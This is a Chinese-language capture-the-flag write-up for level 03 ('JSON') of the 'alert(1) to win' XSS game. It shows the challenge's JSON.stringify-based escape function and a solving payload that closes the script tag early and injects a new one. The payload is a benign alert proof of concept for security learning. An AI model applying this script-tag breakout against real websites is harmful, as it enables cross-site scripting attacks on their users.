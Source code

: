 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 03 - JSON](https://alf.nu/alert1)] [[解题报告](https://exp-blog.com/safe/ctf/alert/level-03-json/)]

------

## 题目

```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

------

## 解题报告

从代码可知对输入做了 `stringify` 过滤，关于其功能详见 [这里](https://www.runoob.com/js/javascript-json-stringify.html) 

简单来说就是把 `"` 和 `\` 都转义了，导致无法直接闭合函数。

但是闭合 `<script>` 就可以了，构造 payload 如下 （此处没有闭合后半段的双引号，而是通过行注释 `//` 屏蔽掉）：

```javascript
</script><script>alert(1);//
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2003%20-%20JSON/imgs/01.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
